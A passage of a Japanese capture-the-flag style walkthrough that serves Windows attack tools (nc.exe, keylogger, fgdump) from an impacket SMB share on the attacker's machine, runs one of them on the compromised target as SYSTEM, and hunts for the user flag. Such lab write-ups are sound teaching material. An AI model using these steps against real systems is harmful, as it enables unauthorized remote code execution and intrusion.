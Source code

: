     ```bash
    sudo /usr/share/doc/python3-impacket/examples/smbserver.py temp /usr/share/windows-binaries/
    ```
  
  * 起動できたか確かめる
  
    ```bash
    $ smbclient //10.10.16.12/temp
    Password for [WORKGROUP\kali]:
    Try "help" to get a list of possible commands.
    smb: \> ls
      .                                   D     4096  Tue Jun 14 12:21:35 2022
      ..                                  D     4096  Tue Jun 14 12:21:35 2022
      mbenum                              D     4096  Tue Jun 14 12:21:35 2022
      nc.exe                             AN    59392  Wed Jul 17 18:31:43 2019
      radmin.exe                         AN   704512  Wed Jul 17 18:31:43 2019
      enumplus                            D     4096  Tue Jun 14 12:21:35 2022
      klogger.exe                        AN    23552  Wed Jul 17 18:31:43 2019
      whoami.exe                         AN    66560  Wed Jul 17 18:31:43 2019
      fgdump                              D     4096  Tue Jun 14 12:21:35 2022
      vncviewer.exe                      AN   364544  Wed Jul 17 18:31:43 2019
      plink.exe                          AN   311296  Wed Jul 17 18:31:43 2019
      exe2bat.exe                        AN    53248  Wed Jul 17 18:31:43 2019
      nbtenum                             D     4096  Tue Jun 14 12:21:35 2022
      fport                               D     4096  Tue Jun 14 12:21:35 2022
      wget.exe                           AN   308736  Wed Jul 17 18:31:43 2019
    
                    148529400 blocks of size 7680. 148529400 blocks available
    
    ```
  
  * ターゲットホストでwhoami.exeをtemp shareを利用して実行する
  
    ```cme
    C:\WINDOWS\system32>\\10.10.16.12\temp\whoami.exe
    \\10.10.16.12\temp\whoami.exe
    NT AUTHORITY\SYSTEM
    ```
  
    SYSTEMを持っているので権限昇格は不要
  
  * ファイルを探していく
  
    ```cmd
    C:\>dir user.txt /s
    dir user.txt /s
     Volume in drive C has no label.
     Volume Serial Number is 54BF-723B
    
     Directory of C:\Documents and Settings\john\Desktop
    
    16/03/2017  09:19 ��                32 user.txt
                   1 File(s)             32 bytes
    
         Total Files Listed:
                   1 File(s)             32 bytes
                   0 Dir(s)   6.342.041.600 bytes free
    ```
  